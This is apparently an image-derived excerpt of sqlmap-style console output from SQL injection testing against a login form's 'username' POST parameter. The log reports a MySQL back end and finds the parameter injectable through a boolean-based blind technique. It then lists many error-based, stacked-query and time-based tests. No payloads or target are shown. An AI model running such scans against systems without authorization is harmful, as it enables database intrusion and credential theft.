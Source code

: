```
[12:15:48] [INFO] target URL content is stable
[12:15:48] [INFO] testing if POST parameter 'username' is dynamic
[12:15:48] [WARNING] POST parameter 'username' does not appear to be dynamic
[12:15:48] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[12:15:48] [INFO] testing for SQL injection on POST parameter 'username'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[12:15:48] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[12:15:49] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[12:15:49] [INFO] testing 'Generic inline queries'
[12:15:49] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:15:51] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[12:15:52] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[12:15:53] [INFO] POST parameter 'username' appears to be 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)' injectable 
[12:15:53] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[12:15:53] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
[12:15:53] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXP)'
[12:15:53] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (EXP)'
[12:15:53] [INFO] testing 'MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)'
[12:15:53] [INFO] testing 'MySQL >= 5.6 OR error-based - WHERE or HAVING clause (GTID_SUBSET)'
[12:15:53] [INFO] testing 'MySQL >= 5.7.8 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (JSON_KEYS)'
[12:15:53] [INFO] testing 'MySQL >= 5.7.8 OR error-based - WHERE or HAVING clause (JSON_KEYS)'
[12:15:53] [INFO] testing 'MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:15:53] [INFO] testing 'MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:15:53] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:15:53] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[12:15:53] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[12:15:53] [INFO] testing 'MySQL >= 5.1 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (UPDATEXML)'
[12:15:53] [INFO] testing 'MySQL >= 4.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)'
[12:15:54] [INFO] testing 'MySQL >= 4.1 OR error-based - WHERE or HAVING clause (FLOOR)'
[12:15:54] [INFO] testing 'MySQL OR error-based - WHERE or HAVING clause (FLOOR)'
[12:15:54] [INFO] testing 'MySQL >= 5.1 error-based - PROCEDURE ANALYSE (EXTRACTVALUE)'
[12:15:54] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (BIGINT UNSIGNED)'
[12:15:54] [INFO] testing 'MySQL >= 5.5 error-based - Parameter replace (EXP)'
[12:15:54] [INFO] testing 'MySQL >= 5.6 error-based - Parameter replace (GTID_SUBSET)'
[12:15:54] [INFO] testing 'MySQL >= 5.7.8 error-based - Parameter replace (JSON_KEYS)'
[12:15:54] [INFO] testing 'MySQL >= 5.0 error-based - Parameter replace (FLOOR)'
[12:15:54] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (UPDATEXML)'
[12:15:54] [INFO] testing 'MySQL >= 5.1 error-based - Parameter replace (EXTRACTVALUE)'
[12:15:54] [INFO] testing 'MySQL inline queries'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 stacked queries (comment)'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 stacked queries'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP - comment)'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 stacked queries (query SLEEP)'
[12:15:54] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK - comment)'
[12:15:54] [INFO] testing 'MySQL < 5.0.12 stacked queries (BENCHMARK)'
[12:15:54] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
```
